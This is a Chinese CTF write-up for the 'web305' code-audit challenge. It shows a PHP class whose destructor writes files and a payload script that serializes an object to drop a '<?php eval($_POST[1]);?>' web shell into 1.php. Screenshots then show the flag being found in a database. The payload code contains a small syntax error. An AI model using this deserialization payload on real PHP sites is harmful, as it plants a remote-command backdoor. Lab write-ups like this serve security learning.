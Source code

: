 ```yaml
---
title: "[代码审计]实战篇:web305"
desc: TonyD0g
date: 2022-02-09 22:11:27
tags: 代码审计
---
```

<font size=4 >

###### [版本0x1] 
###### 2022-02-09

## web305:
## 自动化扫描:
![avatar](https://s4.ax1x.com/2022/02/09/HJ4px1.png)

## 查看class.php,很明显的反序列化漏洞:
```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-17 13:20:37
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-17 13:33:21
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```


### payload:
```
<?php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct{
		file_put_contents($this->username, $this->password);
	}
}
echo urlencode(serialize(new user('1.php','<?php eval($_POST[1]);?>')));
?>
```
## 这里必须要urlencode,否则执行不成功:
![avatar](https://s4.ax1x.com/2022/02/09/HJ4kVO.png)

## flag藏数据库里了:
![avatar](https://s4.ax1x.com/2022/02/09/HJ4CKx.png)

![avatar](https://s4.ax1x.com/2022/02/09/HJ4S2R.png)

![avatar](https://s4.ax1x.com/2022/02/09/HJ4AaD.png)

## 另外一个文件,和web303同一个漏洞点,不赘述:
![avatar](https://s4.ax1x.com/2022/02/09/HJ4EIe.png)
</font>